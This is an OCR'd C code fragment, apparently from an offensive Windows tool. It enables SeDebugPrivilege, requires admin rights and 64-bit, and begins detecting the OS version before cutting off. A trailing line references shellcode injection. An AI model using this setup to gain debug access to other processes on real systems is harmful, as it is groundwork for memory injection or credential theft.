 ```c

BOOL SetDebugPrivilege() {
	HANDLE hToken = NULL;
	TOKEN_PRIVILEGES TokenPrivileges = { 0 };

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		return FALSE;
	}

	TokenPrivileges.PrivilegeCount = 1;
	TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

	LPWSTR lpwPriv = L"SeDebugPrivilege";
	if (!LookupPrivilegeValueW(NULL, (LPCWSTR)lpwPriv, &TokenPrivileges.Privileges[0].Luid)) {
		CloseHandle(hToken);
		return FALSE;
	}

	if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
		CloseHandle(hToken);
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}


int wmain(int argc, wchar_t* argv[]) {

	// 仅支持64位系统
	if (sizeof(LPVOID) != 8) {
		exit(1);
	}
	//判断是否为管理员权限
	if (!IsElevated()) {
		exit(1);
	}

	SetDebugPrivilege();

	PWIN_VER_INFO pWinVerInfo = (PWIN_VER_INFO)calloc(1, sizeof(WIN_VER_INFO));

	// 获取版本信息
	OSVERSIONINFOEXW osInfo;
	LPWSTR lpOSVersion;
	osInfo.dwOSVersionInfoSize = sizeof(osInfo);

	_RtlGetVersion RtlGetVersion = (_RtlGetVersion)
		GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetVersion");
	if (RtlGetVersion == NULL) {
		return FALSE;
	}

	wprintf(L"[1] Checking OS version details:\n");
	RtlGetVersion(&osInfo);
	swprintf_s(pWinVerInfo->chOSMajorMinor, _countof(pWinVerInfo->chOSMajorMinor), L"%u.%u", osInfo.dwMajorVersion, osInfo.dwMinorVersion);
	pWinVerInfo->dwBuildNumber = osInfo.dwBuildNumber;

	if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"10.0") == 0) {
		lpOSVersion = L"10 or Server 2016";
```

[go/shellcode_inject/virtual>>]: generate